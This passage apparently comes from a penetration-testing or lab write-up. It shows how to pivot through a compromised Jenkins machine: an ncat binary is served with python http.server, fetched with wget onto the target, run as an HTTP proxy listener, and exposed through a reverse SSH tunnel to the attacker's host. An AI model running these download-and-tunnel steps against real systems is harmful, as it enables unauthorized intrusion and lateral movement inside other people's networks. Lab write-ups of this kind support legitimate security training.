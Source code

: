 Serve `ncat` on the current directory using python http.server:

```
python3 -m http.server 80
```

![picture 6](images/e6b1a9dac987e11af73d111897df45a63d29a11cbbd46ed4724031460265fd31.png)  

<br/>

Then on the Jenkin machine, download the served `ncat`:

```
wget http://192.168.100.11/ncat
```

![picture 7](images/adc8f705ccec32b48462b787c4d60278fe99610c5313200d5cbd56b2e653b9a3.png)  

<br/>

Use `ncat` to setup a http socks proxy:

```
chmod +x ncat
```

```
./ncat -l 4444 --proxy-type http &
```

![picture 8](images/4e38b7d8a6220cf618550220cd9f5763e090e4bf35e16aa1da2c04648d20e7d6.png)  

<br/>

Then do a reverse port forwarding using the tunnel on the Jenkins machine:
```
ssh -R 4445:127.0.0.1:4444 brian@192.168.100.11
```
![picture 9](images/6854041dabbd37e6a221ff5fe47908ffe585c5bbeb25ee8cd48ddd76b1f1582a.png)  
